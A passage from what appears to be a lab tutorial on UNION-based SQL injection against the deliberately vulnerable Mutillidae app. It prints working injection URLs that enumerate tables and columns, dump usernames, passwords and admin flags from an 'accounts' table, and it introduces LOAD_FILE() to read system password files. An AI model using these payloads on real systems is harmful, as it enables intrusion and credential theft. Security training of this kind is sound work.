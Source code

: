 The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5.
In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one:
union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’


http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/46bd8952-514e-4db6-99b3-44b60d69495a)

The url once executed will  retrieve table names from the “owasp 10” database.

## Extracting sensitive data such as passwords
When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/0f3a4e2f-8b06-42e5-a79d-6fca1f627112)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/43499f8b-61e3-429e-aec0-fbac321da4d6)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/AmirthaRoopaS/sqlinjection/assets/143496311/41ba5431-966f-497c-8e67-581fa02c4b5b)

## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.
